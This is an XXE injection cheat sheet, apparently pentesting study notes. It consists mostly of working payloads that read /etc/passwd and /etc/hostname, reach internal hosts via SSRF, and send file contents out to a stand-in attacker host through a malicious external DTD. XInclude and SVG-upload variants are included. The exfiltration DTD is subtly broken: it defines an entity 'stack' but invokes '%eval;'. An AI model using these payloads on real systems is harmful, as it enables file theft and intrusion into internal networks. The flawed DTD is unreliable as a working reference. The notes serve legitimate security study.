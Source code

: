 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## Retrieve files

1. Introduce (or edit) a DOCTYPE element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

* Note: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Perform SSRF attacks

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE

### Out-of-band (OAST) techniques <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://YOUR-DTD-URL/example.dtd` this malicious dtd.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%eval;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-DTD-URL/example.dtd"> %xxe;]>
```

## Finding hidden attack surface for XXE injection

**First case** - Requests that contain data in XML format

**Second case -** Requests that do not contain any XML

* **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML ...
* XInclude attacks
  * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
  * XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
  * ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
* Via file upload
  * Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
  * ```xml
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  * This works if it's used image processing library & support SVG images & allow external entity
* Via modified content type
  * To do
